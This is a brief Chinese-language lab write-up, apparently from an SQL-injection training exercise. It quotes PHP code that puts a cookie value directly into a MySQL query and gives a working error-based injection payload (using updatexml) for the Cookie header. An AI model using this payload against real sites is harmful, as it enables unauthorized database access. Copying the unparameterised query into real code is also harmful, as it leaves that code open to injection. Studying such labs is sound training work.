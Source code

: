 

```php
echo "<br></font>";
$sql="SELECT * FROM users WHERE username='$cookee' LIMIT 0,1";
$result=mysqli_query($con1, $sql);
if (!$result)
{
    die('Issue with your mysql: ' . mysqli_error($con1));
}
$row = mysqli_fetch_array($result, MYSQLI_BOTH);
```

由代码片段知变量 \$cookee 可以进行注入，而 \$cookee 变量又是从 \$cookee = \$_COOKIE['uname']; 设置的

故先对网页进行拦截，再修改 cookie 值进行报错注入

```
Cookie: uname=admin' or updatexml(1,concat('~',(select database())),3)#
```



